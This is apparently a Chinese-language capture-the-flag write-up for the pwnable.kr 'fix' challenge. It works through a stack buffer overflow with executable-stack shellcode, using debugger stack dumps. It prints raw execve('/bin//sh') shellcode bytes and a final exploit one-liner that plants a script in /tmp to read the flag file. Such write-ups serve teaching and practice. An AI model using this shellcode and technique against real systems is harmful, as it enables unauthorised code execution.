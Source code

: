```yaml
---
layout: post
title: pwnable.kr fix
date: 2023-04-03 20:15 +0800
categories: [ctf, pwn]
tag: [pwnable.kr, stack, shellcode]
---
```


## 配置网络
做题前发现网络有点问题，mac上可以使用如下解决方案
```bash
brew install netcat
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:7890 %h %p' fix@pwnable.kr -p 2222
scp -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:7890 %h %p' -P 2222 fix@pwnable.kr:/home/f
ix/fix .
```
或者使用`~/.ssh/config`
```
Host pwnable
	hostname pwnable.kr
	ProxyCommand ncat --proxy-type socks5 --proxy 127.0.0.1:7890 %h %p
	Port 2222
```
## 分析代码

首先分析代码，发现代码存在一定的问题。

```c
void shellcode(){
	// a buffer we are about to exploit!
	char buf[20];

	// prepare shellcode on executable stack!
	strcpy(buf, sc);

	// overwrite return address!
	*(int*)(buf+32) = buf;

	printf("get shell\n");
}
```
`sc`是23字节的，覆盖时看起来存在溢出。

以下是代码里用到的shellcode
```c
/*
xor    %eax,%eax
push   %eax
push   $0x68732f2f
push   $0x6e69622f
mov    %esp,%ebx
push   %eax
push   %ebx
mov    %esp,%ecx
mov    $0xb,%al
int    $0x80
*/
#include <stdio.h>
#include <string.h>
 
char *shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
		  "\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

int main(void)
{
fprintf(stdout,"Length: %d\n",strlen(shellcode));
(*(void(*)()) shellcode)();
return 0;
}

```
## 动态调试

接下来通过动态调试。

### 进入shellcode前的栈布局

拷下来本地调试一下：
```
pwndbg> stack 30
00:0000│    esp   0xffffd500 —▸ 0xf7fa8620 (_IO_2_1_stdin_) ◂— 0xfbad2288
01:0004│          0xffffd504 —▸ 0x804875e ◂— and eax, 0x64 /* '%d' */
02:0008│          0xffffd508 —▸ 0xffffd524 —▸ 0xffffd538 ◂— 0x31 /* '1' */
03:000c│    buf   0xffffd50c ◂— 0x6850c031
04:0010│          0xffffd510 ◂— 0x68732f2f ('//sh')
05:0014│          0xffffd514 ◂— 0x69622f68 ('h/bi')
06:0018│          0xffffd518 ◂— 0x50e3896e
07:001c│          0xffffd51c ◂— 0xb0e18953
08:0020│          0xffffd520 ◂— 0x80cd0b
09:0024│          0xffffd524 —▸ 0xffffd538 ◂— 0x31 /* '1' */
0a:0028│    ebp   0xffffd528 —▸ 0xffffd548 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 ◂— 0x0
0b:002c│ ret_addr 0xffffd52c —▸ 0xffffd50c ◂— 0x6850c031
0c:0030│          0xffffd530 —▸ 0xffffd570 —▸ 0xf7fa8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
```

其中，0xffffd50c是buf的起始位置

### 进入shellcode后的栈布局
```
────────────────────────────────────────[ DISASM / i386 / set emulate on ]────────────────────────────────────────
   0x804854d  <shellcode+50>    add    esp, 0x10
   0x8048550  <shellcode+53>    nop
   0x8048551  <shellcode+54>    leave
   0x8048552  <shellcode+55>    ret
    ↓
 ► 0xffffd50c                   xor    eax, eax
   0xffffd50e                   push   eax
   0xffffd50f                   push   0x68732f2f
   0xffffd514                   push   0x6e69622f
   0xffffd519                   mov    ebx, esp
────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────
00:0000│ esp 0xffffd530 —▸ 0xffffd570 —▸ 0xf7fa8000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
01:0004│     0xffffd534 —▸ 0xf7fbe66c —▸ 0xf7ffdba0 —▸ 0xf7fbe780 —▸ 0xf7ffda40 ◂— ...
02:0008│     0xffffd538 ◂— 0x31 /* '1' */
03:000c│     0xffffd53c ◂— 0x0
04:0010│     0xffffd540 ◂— 0x1
05:0014│     0xffffd544 —▸ 0xffffd560 ◂— 0x1
06:0018│ ebp 0xffffd548 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 ◂— 0x0
07:001c│     0xffffd54c —▸ 0xf7d9f519 (__libc_start_call_main+121) ◂— add esp, 0x10
08:0020│     0xffffd550 —▸ 0xffffd761 ◂— '/root/work/fix'
09:0024│     0xffffd554 ◂— 0x70 /* 'p' */
```

shellcode中用了五个push，执行后，他会覆盖shellcode的内容，从而触发segment fault。

* shellcode的结尾：`0xffffd520`
* esp：`0xffffd530`

也就是说，我们只有`0xffffd524`，`0xffffd528`，`0xffffd52c`可以用，最多三个`push`，但是shellcode里面有五个。
很容易想到nop掉其中一个，但是还有四个，这样还是会影响shellcode。

| NR | SYSCALL NAME | references | eax | ARG0 (ebx)           | ARG1 (ecx)              | ARG2 (edx)              | ARG3 (esi) | ARG4 (edi) | ARG5 (ebp) |
|----|--------------|------------|-----|----------------------|-------------------------|-------------------------|------------|------------|------------|
| 11 | execve       | man/ cs/   | B   | const char *filename | const char *const *argv | const char *const *envp | -          | -          | -          |

将`push eax`改成`pop xxx`后的下一条指令`push ebx`后会影响`/bin`导致segment fault，那么还有别的迁移栈的方式吗？

有，他就是`leave`指令,上远程动态调试一波。

`fix.init`

```
source /usr/share/peda/peda.py
b *main
b *shellcode
r
```

`gdb -x /tmp/fix.init fix`
```
[----------------------------------registers-----------------------------------]
EAX: 0xb ('\x0b')
EBX: 0xff9a2f84 ("/bin//sh")
ECX: 0xff9a2fa8 --> 0xff9a2f84 ("/bin//sh")
EDX: 0xf76da870 --> 0x0
ESI: 0xf76d9000 --> 0x1b2db0
EDI: 0xf76d9000 --> 0x1b2db0
EBP: 0x0
ESP: 0xff9a2fa8 --> 0xff9a2f84 ("/bin//sh")
EIP: 0xff9a2f81 --> 0x2f0080cd
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xff9a2f7c:	push   ebx
   0xff9a2f7d:	mov    ecx,esp
   0xff9a2f7f:	mov    al,0xb
=> 0xff9a2f81:	int    0x80
   0xff9a2f83:	add    BYTE PTR [edi],ch
   0xff9a2f85:	bound  ebp,QWORD PTR [ecx+0x6e]
   0xff9a2f88:	das
   0xff9a2f89:	das
[------------------------------------stack-------------------------------------]
0000| 0xff9a2fa8 --> 0xff9a2f84 ("/bin//sh")
0004| 0xff9a2fac --> 0xf753e647 (<__libc_start_main+247>:	add    esp,0x10)
0008| 0xff9a2fb0 --> 0xf76d9000 --> 0x1b2db0
0012| 0xff9a2fb4 --> 0xf76d9000 --> 0x1b2db0
0016| 0xff9a2fb8 --> 0x0
0020| 0xff9a2fbc --> 0xf753e647 (<__libc_start_main+247>:	add    esp,0x10)
0024| 0xff9a2fc0 --> 0x1
0028| 0xff9a2fc4 --> 0xff9a3054 --> 0xff9a3dc1 ("/home/fix/fix")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0xff9a2f81 in ?? ()
gdb-peda$ x/20wx 0xff9a2fa8
0xff9a2fa8:	0xff9a2f84	0xf753e647	0xf76d9000	0xf76d9000
0xff9a2fb8:	0x00000000	0xf753e647	0x00000001	0xff9a3054
0xff9a2fc8:	0xff9a305c	0x00000000	0x00000000	0x00000000
0xff9a2fd8:	0xf76d9000	0xf7715c04	0xf7715000	0x00000000
0xff9a2fe8:	0xf76d9000	0xf76d9000	0x00000000	0x5ed23a4c
gdb-peda$ x/20b 0xf753e647
0xf753e647 <__libc_start_main+247>:	0x83	0xc4	0x10	0x83	0xec	0x0c	0x50	0xe8
0xf753e64f <__libc_start_main+255>:	0x8d	0x63	0x01	0x00	0x31	0xc9	0xe9	0x28
0xf753e657 <__libc_start_main+263>:	0xff	0xff	0xff	0x8b
```
观察此时的ecx，他代表execve的参数，是一个指针数组
* 第一个地址为`0xff9a2f84`，其指向/bin//sh
* 第二个地址为`0xf753e647`，其内容的十六进制为`83c41083ec0c50e88d6301`
* 第三及后面个地址可以暂时不用管，因为第二个文件找不到，后面的就不会去找
即`/bin//sh file1 file2 file3`。现在我们可以控制这个`file1`文件的内容，写一段脚本进去

最终exp如下，记得要去`/tmp`,其他目录我们不可写

## 利用脚本
```bash
cd /tmp && echo "id && cat /home/fix/flag" > `echo -ne "\x83\xc4\x10\x83\xec\x0c\x50\xe8\x8d\x63\x01"`
```
-n表示输出不换行，-e表示解析反斜杠，如`\r`、`\e`、`\xHH`等。